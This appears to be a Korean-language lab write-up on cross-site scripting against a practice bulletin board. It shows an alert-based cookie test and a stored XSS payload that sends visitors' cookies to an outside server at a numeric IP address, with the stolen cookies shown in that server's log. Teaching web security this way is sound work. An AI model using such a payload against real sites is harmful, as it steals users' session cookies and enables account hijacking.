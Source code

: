 # XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진]
 ![게시글 보기 사진]
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ### 공격 실습
 ![xss_test]
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2]
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ### Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored]
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://112.149.131.31/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2]
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3]
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.
